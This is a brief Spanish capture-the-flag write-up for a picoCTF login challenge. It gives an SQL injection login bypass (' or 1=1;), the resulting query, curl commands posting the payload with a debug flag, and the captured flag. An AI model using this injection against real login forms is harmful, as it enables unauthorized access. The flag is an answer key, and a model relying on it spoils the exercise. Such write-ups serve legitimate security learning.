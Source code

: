 ## Descripcion 

Hay un sitio web en https://jupiter.challenges.picoctf.org/problem/39720/ (enlace) o http://jupiter.challenges.picoctf.org:39720. ¿Crees que puedes iniciar sesión con nosotros? ¡Intenta ver si puedes iniciar sesión!
## Solucion


inspeccionamos
cambiamos el login el value por 1 
inyeccion sql
username: ' or 1=1; ponemos esto en el username 
password: 
SQL query: SELECT * FROM users WHERE name='' or 1=1; AND password=''


Logged in!
Your flag is: picoCTF{s0m3_SQL_c218b685}

////////////Consola

curl (link) -d "username:admin&password=admin&debug=1"

curl (link) -d "username:' or 1=1;&password=admin&debug=1"


## Notas adicionales
